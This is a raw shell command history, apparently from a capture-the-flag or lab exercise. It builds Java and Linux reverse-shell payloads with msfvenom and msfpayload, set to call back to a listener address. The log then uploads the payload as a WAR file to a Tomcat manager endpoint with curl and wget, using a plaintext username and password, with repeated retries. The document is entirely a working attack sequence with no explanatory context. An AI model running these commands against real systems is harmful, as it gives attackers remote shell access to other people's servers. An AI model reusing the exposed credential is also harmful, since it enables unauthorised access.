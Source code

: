   957  msfpayload linux/x86/shell_reverse_tcp LHOST=10.4.27.248 W > app.war
  959  msfvenom -p java/shell_reverse_tcp lhost=10.4.27.248 lport=4242 -f war -o app.war
  961  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.27.248 LPORT=4243 -f war > shell.war
  994  wget http://webdev:Hgj3LA$02D$Fa@21@hack2:8080/manager/text/deploy/?path=h3&war=file:/warpath -O -q
  995  wget http://webdev:Hgj3LA$02D$Fa@21@hack2:8080/manager/text/deploy/?path=h3&war=file:/warpath -q
  996  wget http://webdev:Hgj3LA$02D$Fa@21@hack2:8080/manager/text/deploy/?path=h3&war=file:/warpath
  997  wget http://webdev:Hgj3LA$02D\$Fa@21@hack2:8080/manager/text/deploy/?path=h3\&war=file:/warpath -q
  998  curl -v -u webdev:Hgj3LA$02D$Fa@21 -T app.war 'http://hack2:8080/manager/text/deploy?path=/h3&update=true'
  999  curl -v -u webdev:Hgj3LA$02D\$Fa@21 -T app.war 'http://10.10.117.69:8080/manager/text/deploy?path=/h3&update=true'
 1000  curl -v -u webdev:Hgj3LA$02D$Fa@21 -T app.war 'http://10.10.117.69:8080/manager/text/deploy?path=/h3&update=true'
 1001  curl -v -u 'webdev:Hgj3LA$02D$Fa@21' -T app.war 'http://10.10.117.69:8080/manager/text/deploy?path=/h3&update=true'
 1002  jar -xvf app.war 
 1036  curl -v -u 'webdev:Hgj3LA$02D$Fa@21' -T app.war 'http://10.10.246.136:8080/manager/text/deploy?path=/h3&update=true'
 1051  curl -v -u 'webdev:Hgj3LA$02D$Fa@21' -T app.war 'http://10.10.178.239:8080/manager/text/deploy?path=/h3&update=true'

jar cmvf META-INF/MANIFEST.MF app2.jar JavaAppendToFile.class JavaAppendToFile.java